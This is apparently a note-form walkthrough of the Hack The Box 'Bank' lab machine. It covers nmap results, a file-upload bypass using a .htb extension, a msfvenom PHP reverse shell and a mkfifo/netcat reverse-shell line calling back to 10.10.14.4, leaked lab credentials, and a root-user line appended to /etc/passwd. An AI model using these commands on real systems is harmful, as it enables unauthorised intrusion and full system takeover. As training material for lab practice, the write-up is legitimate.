






# Nmap
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
| ssh-dss AAAAB3NzaC1kc3MAAACBAMJ+YATka9wvs0FTz8iNWs6uCiLqSFhmBYoYAorFpozVGkCkU1aEJ7biybFTw/qzS9pbSsaYA+3LyUyvh3BSPGEt1BgGW/H29MuXjkznwVz60JqL4GqaJzYSL3smYYdr3KdJQI/QSvf34WU3pife6LRmJaVk+ETh3wPclyecNtedAAAAFQC1Zb2O2LzvAWf20FdsK8HRPlrx1wAAAIBIBAhLmVd3Tz+o+6Oz39g4Um1le8d3DETINWk3myRvPw8hcnRwAFe1+14h3RX4fr+LKXoR/tYrI138PJyiyl+YtQWhZnJ7j8lqnKRU2YibtnUc44kP9FhUqeAcBNjj4qwG9GyQSWm/Q5CbOokgaa6WfdcnwsUMim0h2Ad8YdU1kAAAAIBy3dOOD8jKHeBdE/oXGG0X9tKSFZv1gPr/kZ7NfqUF0kHU3oZTNK8/2qR0SNHgrZ2cLgKTIuneGS8lauXjC66NNMoUkJcMHpwRkYC0A86LDmhES6OuPsQwAjr1AtUZn97QjYu1d6WPfhTdsRYBuCotgKh2SBkzV1Bcz77Tnp56JA==
|   2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDc0rofjHtpSlqkDjjnkEiYcbUrMH0Q4a6PcxqsR3updDGBWu/RK7AGWRSjPn13uil/nl44XF/fkULy7FoXXskByLCHP8FS2gYJApQMvI9n81ERojEA0NIi6VZKP19bl1VFTk7Q5rEPIpab2xqYMBayb1ch7iP95n3iayvHEt/7cSTsddGWKeALi+rrujpnryNViiOIWpqDv+RWtbc2Wuc/FTeGSOt1LBTbtKcLwEehBG+Ym8o8iKTd+zfVudu7v1g3W2Aa3zLuTcePRKLUK3Q2D7k+5aJnWrekpiARQm3NmMkv1NuDLeW3amVBCv6DRJPBqEgSeGMGsnqkR8CKHO9/
|   256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDH30xnPq1XEub/UFQ2KoHXh9LFKMNMkt60xYF3OrEp1Y5XQd0QyeLXwm6tIqWtb0rWda/ivDgmiB4GzCIMf/HQ=
|   256 2d:79:44:30:c8:bb:5e:8f:07:cf:5b:72:ef:a1:6d:67 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIA8MYjFyo+4OwYGTzeuyNd998y6cOx56mIuciim1cvKh
53/tcp open  domain  syn-ack ttl 63 ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.7 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works

## HTTP 80 bank.htb


http://bank.htb/uploads/
forbidden


http://bank.htb/balance-transfer/
acc files


```
++OK ENCRYPT SUCCESS
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: czeCv3jWYYljNI2mTedDWxNCF37ddRuqrJ2WNlTLje47X7tRlHvifiVUm27AUC0ll2i9ocUIqZPo6jfs0KLf3H9qJh0ET00f3josvjaWiZkpjARjkDyokIO3ZOITPI9T
Email: 1xlwRvs9vMzOmq8H3G5npUroI9iySrrTZNpQiS0OFzD20LK4rPsRJTfs3y1VZsPYffOy7PnMo0PoLzsdpU49OkCSSDOR6DPmSEUZtiMSiCg3bJgAElKsFmlxZ9p5MfrE
Password: TmEnErfX3w0fghQUCAniWIQWRf1DutioQWMvo2srytHOKxJn76G4Ow0GM2jgvCFmzrRXtkp2N6RyDAWLGCPv9PbVRvbn7RKGjBENW3PJaHiOhezYRpt0fEV797uhZfXi
CreditCards: 5
Transactions: 93
Balance: 905948 .
===UserAccount===
```


does not cleanly decode with b64




change 302 response to 200




<!-- [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] -->


msfvenom -p php/reverse_php  LHOST=10.10.14.4 LPORT=443 -f raw > shell.php

```
<!-- [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] -->
```


Content-Disposition: form-data; name="fileToUpload"; filename="shell.htb"


http://bank.htb/uploads/shell.htb




rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 1337 >/tmp/f


## Privesc
www-data@bank:~/bank$ cat bankreports.txt
cat bankreports.txt
+=================+
| HTB Bank Report |
+=================+

===Users===
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
CreditCards: 2
Transactions: 8
Balance: 1.337$


log in



echo hacker:$((mkpasswd -m SHA-512 myhackerpass || openssl passwd -1 -salt mysalt myhackerpass || echo '$1$mysalt$7DTZJIc9s6z60L6aj0Sui.') 2>/dev/null):0:0::/:/bin/bash >> /etc/passwd

